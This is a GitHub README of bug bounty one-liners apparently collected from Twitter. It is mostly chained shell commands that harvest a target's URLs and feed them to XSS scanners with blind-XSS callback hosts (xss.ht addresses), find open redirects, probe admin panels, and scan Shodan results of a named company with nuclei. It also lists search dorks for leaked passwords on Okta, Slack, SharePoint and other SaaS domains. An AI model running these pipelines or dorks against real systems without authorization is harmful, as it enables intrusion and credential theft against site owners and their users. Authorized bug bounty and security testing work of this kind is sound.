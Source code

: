 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
*OKTA*
okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
*ServiceNOW*
service-now password
*Jfrog*
jfrog.io password
*onelogin*
onelogin.com password
*Atlassian*
atlassian.net password NOT domain.atlassian NOT user.atlassian NOT help.atlassian NOT
*Snow..*
snowflakecomputing.com password
*Slack*
slack.com  password
*Zendesk*
zendesk.com password NOT www.zendesk
*SharePoint*
sharepoint.com password
*Auth0*
auth0.com password NOT docs.auth0
```

## XSS PARAMSPIDER + GF XSS + DALFOX

```
python paramspider --domain target.com -o output
cat output | gf xss > gf_xss.txt
cat gf_xss.txt | dalfox -b yoursite.xss.ht
```
## SHODAN + NUCLEI = JUICY CVE

```
echo 'ssl:"dell.com" 200' | uncover -e shodan | httpx -silent | nuclei --severity medium,high,critical
```
## GIT DORKS

```
https://github.com/search?o=desc&q=att.com&s=indexed&type=Code
```
